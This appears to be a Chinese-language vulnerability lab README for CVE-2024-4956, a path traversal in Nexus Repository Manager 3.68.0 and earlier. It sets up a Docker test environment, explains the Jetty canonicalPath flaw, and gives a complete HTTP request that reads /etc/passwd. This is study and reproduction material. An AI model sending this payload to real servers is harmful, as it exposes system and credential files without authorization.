


# Nexus Repository Manager 3 未授权目录穿越漏洞（CVE-2024-4956）

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。

其3.68.0及之前版本中，存在一处目录穿越漏洞。攻击者可以利用该漏洞读取服务器上任意文件。

参考链接：

- <https://support.sonatype.com/hc/en-us/articles/29416509323923-CVE-2024-4956-Nexus-Repository-3-Path-Traversal-2024-05-16>

## 漏洞环境

执行如下命令启动一个Nexus Repository Manager version 3.68.0 版本服务器：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8081`即可看到Nexus的默认页面。

## 漏洞复现

与Orange Tsai在[Blackhat US 2018](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)分享的SpringMVC CVE-2018-1271漏洞类似，Jetty的`URIUtil.canonicalPath()`函数也将空字符串认为是一个合法目录，导致了该漏洞的产生：



发送如下请求来复现漏洞：

```
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

可见，`/etc/passwd`已被成功读取：


